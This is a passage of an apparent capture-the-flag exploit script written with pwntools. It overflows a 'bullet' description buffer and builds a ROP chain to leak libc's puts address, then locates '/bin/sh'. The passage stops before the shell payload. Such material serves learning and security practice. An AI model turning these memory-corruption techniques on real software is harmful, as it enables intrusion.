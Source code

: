 ```py
    # handle SIGALRM ignore
    gdb_script = """
    cwatch execute "x/16xw  0xffffcfe8"
    # b *0x80488dd
    # ^ read_input call
    # b *0x80488fb
    # ^ strncat call
    b beat
    b *0x80487fa
    # ^ After the beat function
    b *0x8048a19
    # ^ after the last beats and exit to main where we call puts@plt(puts@got)
    c
    """
    p = gdb.debug([exe.path], gdb_script, aslr=False)
else:
    p = process([exe.path])

def create(bul_desc):
    sla(b"Your choice :", b"1") # Create
    sla(b"Give me your description of bullet :",bul_desc)
    ru(b"Good luck !!\n")

def power_up(bul_desc):
    sla(b"Your choice :", b"2") # Power up
    sla(b"Give me your another description of bullet :", bul_desc)
    ru(b"Enjoy it !\n")

def beat():
    sla(b"Your choice :", b"3") # Power up

# Overwrite a bunch of stuff before we beat

create(b"A" * (0x30-1))
power_up(b"A")

# --- Overwrite parts
offset = 7
puts_plt = exe.plt['puts']
# Ended up not using this btw, since r.puts already calls puts@plt
puts_got = exe.got['puts']

# This changes r.chain() to include those instructions we saw.
r.puts(puts_got)
r.call(exe.sym['main'])
# 0x0000:        0x80484a8 puts(0x804afdc)
# 0x0004:        0x8048954 0x8048954()
# 0x0008:        0x804afdc got.puts
payload = flat(
    b"C"*offset,
    r.chain(), # Calls puts with the got puts address.
)
power_up(payload)
beat()
beat()
ru(b"Oh ! You win !!")
rl() # Grab junk
# Grab the libc leak
leak = u32(rl()[:-1]) # Get rid of the newline at the end, then unpack it

print(f"=== leaky? {hex(leak)}")
libc.address = leak - libc.sym.puts
bin_sh = next(libc.search("/bin/sh\x00"))
```